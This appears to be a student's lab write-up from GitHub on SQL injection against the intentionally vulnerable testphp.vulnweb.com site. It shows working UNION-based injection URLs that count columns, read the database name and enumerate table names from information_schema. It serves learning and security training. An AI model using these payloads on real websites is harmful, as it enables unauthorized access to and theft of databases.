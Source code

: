 # First Injection and Exploring

To start, the lab's first step is to analyze what happens if you tried an injection like this.
```
http://testphp.vulnweb.com/artists.php?artist=1
```
So before I did the injection, I looked over what information is publicly out in the site just so I can tell any differences after injecting. <br />

So then first tried the commands on the second link from my resources.<br />
I added a ‘ <br />

Result: 
![image](https://github.com/user-attachments/assets/ab533ff6-7043-4fb4-9a2e-8a18aee6ef13)

Then I did: 
```
ORDER BY 1.
```
I did notice that the space in the URL translates to %20 but the site just went back to normal. <br />
![image](https://github.com/user-attachments/assets/96dd693d-4e1f-4868-bb68-4db854ee4c30)  <br />


removing the space result to an error again.<br />
![image](https://github.com/user-attachments/assets/c61e8fc5-c1f2-4926-bbbb-0cd2cf0ab335) <br />


kept doing ORDER BY, ‘til it errored on 4. So there’s only 4 columns on this table, the artists table.<br />
![image](https://github.com/user-attachments/assets/89245b7d-3fa1-4791-9e49-f8fd5743a812)

Then did <br />
```
union select 1,2,3
```
Which nothing showed up.<br />
![image](https://github.com/user-attachments/assets/34a255aa-c42f-4d73-aeb9-16bf52baf154)<br />

I changed artist=1 to a -1. <br />
This time it showed some numbers. It could mean two artists in a table or it’s the second field name. <br />
I am unsure yet. I moved on to the next steps.<br />
![image](https://github.com/user-attachments/assets/df809abf-ac27-476e-9d6b-79e67d2258d3)<br />

Getting the database name. 
```
http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,database(),3
```
![image](https://github.com/user-attachments/assets/099f5e37-97b0-48ca-ad27-4377dcb009ab) <br />


I tried to look for any tables in the database: 
```
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 
```
![image](https://github.com/user-attachments/assets/ce3fa655-dcab-4ded-9df1-65f222f5de95)<br />


Now, it showed a name “artists”. Assuming that’s the table name. and the artist is one of the field names.<br />

Then I changed limit 0,1 to 1,1 and continued changing it. <br />
```
union select 1,table_name,3 
from information_schema.tables 
where table_schema=database() limit 1,1 
```
table carts<br />
![image](https://github.com/user-attachments/assets/43b6052f-5d07-4eac-a9f7-7bc197fb59d1) <br /><br />

2,1 categ<br />
Table categ<br />
![image](https://github.com/user-attachments/assets/edb23b86-91cb-4838-9832-6331582f4b80) <br />

Then I jumped higher jumped higher. 5,1 pictures<br />
![image](https://github.com/user-attachments/assets/aab16d22-1624-4536-ae47-41c5c21b5c36)<br /><br />

9,1 was blank to I went back, 8,1 I also blank. So went further back to 7,1 which showed users. <br />
![image](https://github.com/user-attachments/assets/bd35f7db-328d-4253-bf98-38ffa8ea52a2)<br />
![image](https://github.com/user-attachments/assets/2500bf9c-b948-4c13-b7fb-48df18f86f7f)<br />

<b> So that concludes there are 8 tables.<br />
starting from 0,1-7,1.<br />
</b>

>!NOTE
> Next, Breaking more queries!





